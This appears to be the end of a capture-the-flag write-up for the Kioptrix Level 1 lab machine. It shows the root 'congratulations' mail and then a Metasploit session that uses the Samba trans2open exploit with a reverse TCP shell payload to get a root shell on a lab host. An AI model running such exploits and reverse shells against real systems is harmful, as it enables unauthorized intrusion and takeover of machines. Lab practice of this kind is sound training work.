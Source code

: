  If you are reading this, you got root. Congratulations.
 Level 2 won't be as easy...

 From root  Thu May 18 15:36:54 2017
 Return-Path: <root@kioptrix.level1>
 Received: (from root@localhost)
 	by kioptrix.level1 (8.11.6/8.11.6) id v4IJasM01051
 	for root; Thu, 18 May 2017 15:36:54 -0400
 Date: Thu, 18 May 2017 15:36:54 -0400
 From: root <root@kioptrix.level1>
 Message-Id: <201705181936.v4IJasM01051@kioptrix.level1>
 To: root@kioptrix.level1
 Subject: LogWatch for kioptrix.level1



  ################## LogWatch 2.1.1 Begin #####################


  ###################### LogWatch End #########################


Easy mode for bonus points

msf > use exploit/linux/samba/trans2open
msf exploit(trans2open) > set rhost 192.168.118.174
msf exploit(trans2open) > set payload generic/shell_reverse_tcp
msf exploit(trans2open) > set lhost 192.168.118.173
msf exploit(trans2open) > run

[*] Started reverse TCP handler on 192.168.118.173:4444
[*] 192.168.118.174:139 - Trying return address 0xbffffdfc...
[*] 192.168.118.174:139 - Trying return address 0xbffffcfc...
[*] 192.168.118.174:139 - Trying return address 0xbffffbfc...
[*] 192.168.118.174:139 - Trying return address 0xbffffafc...
[*] Command shell session 2 opened (192.168.118.173:4444 -> 192.168.118.174:1027) at 2017-05-18 19:09:52 -0400

whoami
root
